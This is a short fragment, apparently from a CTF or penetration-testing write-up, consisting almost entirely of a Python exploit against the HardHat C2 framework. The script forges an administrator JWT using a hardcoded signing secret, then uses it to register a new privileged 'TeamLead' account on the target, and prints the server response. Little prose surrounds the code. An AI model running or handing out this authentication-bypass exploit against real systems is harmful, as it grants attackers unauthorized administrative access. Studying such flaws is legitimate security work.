 el exploit:
```python
import jwt
import datetime
import uuid
import requests

rhost = '127.0.0.1:5000'

# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()

expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)

# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "3vilsec",
  "role": "TeamLead",
  "username": "3vilsec"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```


:D